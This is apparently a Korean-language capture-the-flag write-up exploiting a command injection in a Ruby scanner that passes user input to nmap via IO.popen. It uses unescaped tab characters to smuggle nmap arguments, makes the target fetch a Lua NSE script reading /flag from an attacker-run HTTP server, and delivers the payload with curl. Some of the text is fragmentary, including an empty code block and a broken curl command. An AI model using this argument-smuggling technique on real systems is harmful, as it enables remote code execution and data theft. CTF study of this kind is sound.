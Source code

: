 ```python

```

## 익스플로잇


### 취약점 분석

- scanner.rb에서 사용자의 입력을`IO.popen`  함수를 이용해 커맨드로 사용
    
    → command injection 취약점 발생
    
- 단, scanner.rb에서 대부분의 특수문자를 escape 처리함.
    
    → 직접적인 command injection은 불가능함, 예외로 \t 은 escape 처리가 되지 않음
    
- nse 파일을 서버에 삽입해 nmap 스캔 옵션으로 실행하게 끔

### 익스플로잇 단계

### 1. nse 파일을 생성

```bash
echo "os.execute('cat /flag*')" > exploit.nse # lua 언어
```

### 2. nmap 스캔을 할 수 있도록 서버 실행

```bash
python3 -m http.server 
```

### 3. nmap을 실행해 파일을 옮김

```bash
[방법1] 문제 페이지에 직접 삽입 -> 안됨, 직접 삽입하면 url encoding 상태로 넘어가기 때문에 안되는듯
<본인ip>:<본인port>\t--script\thttp-fetch\t-Pn\t--script-args\thttp-fetch.destination=/tmp/hi,http-fetch.url=exploit.nse

[방법2] curl 명령어 사용
curl -X POST \
     --data-binary $
     'service=<본인ip>:<본인port>\t--script\thttp-fetch\t-Pn\t--script-ar
     gs\thttp-fetch.destination=/tmp/hi,http-fetch.url=exploit.nse'
     \
     <target_domain>
```
- [방법1] 결과

